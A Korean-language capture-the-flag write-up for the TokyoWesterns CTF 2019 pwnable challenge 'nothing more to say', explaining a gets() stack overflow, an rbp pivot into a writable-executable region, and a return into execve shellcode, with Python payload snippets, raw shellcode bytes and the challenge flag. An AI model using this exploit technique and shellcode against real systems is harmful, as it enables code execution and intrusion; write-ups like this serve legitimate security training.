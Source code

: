 ```yaml
---
layout: post
title: nothing more to say
category: Pwnable
source: "TokyoWesterns CTF 5th 2019"
rpath: /resource/nothing_more_to_say
tag: [bof, rop]
---
```


**Category**: Pwnable

**Source**: TokyoWesterns CTF 5th 2019

**Points**: 82

**Author**: Jisoon Park(js00n.park)

**Description:** 

> Japan is fucking hot.
> 
> nc nothing.chal.ctf.westerns.tokyo 10001
> 
> [warmup.c]({{site.github.master}}{{page.rpath}}/warmup.c)  
> [warmup]({{site.github.master}}{{page.rpath}}/warmup)


## Write-up

바이너리와 더불어 친절하게 소스코드 주어지는데, canary/NX/PIE가 모두 걸려있지 않다고 하며 ROP와 x64 shellcode를 이용해서 문제를 풀 수 있다고 안내까지 해준다.

문제를 보면 0x100 바이트 크기의 buf에 gets()를 이용해서 무한한 길이의 bof를 가능하게 해주었고, printf()를 이용해서 ~~무쓸모지만~~ fsb도 할 수 있는 여지를 주었다.

![img]({{page.rpath|prepend:site.baseurl}}/maps.png)

메모리맵을 살펴보면 0x601000 번지와 stack 영역이 rwxp로 지정되어 있는 것을 확인할 수 있다. 둘 중 아무 곳에 shellcode를 넣은 후 이쪽으로 jump 시키면 될 것 같다.

```python
r.recvuntil(":)\n")

payload = "A" * 0x100
payload += p64(0x601a00)
payload += p64(0x4006db)

r.sendline(payload)
```

이왕이면 딱 주소값이 고정되어 있는 곳을 이용해보자. rbp를 rwx 영역 중 적당한 곳으로 옮긴 후 main 함수의 proglouge 다음 부분으로 복귀하면 gets() 함수를 이용해 rbp를 기준으로 shell code를 원하는 주소에 적을 수 있다.

두번째 실행에서 shell code를 적어놓은 주소로 return 하도록 하면 shell code가 실행되어 shell을 얻을 수 있다. ([코드]({{site.github.master}}{{page.rpath}}/ex.py))

```python
sc = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

payload = "A" * 0x100 + "B" * 8
payload += p64(0x601a10)
payload += sc

r.sendline(payload)
```

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **TWCTF{AAAATsumori---Shitureishimashita.}**
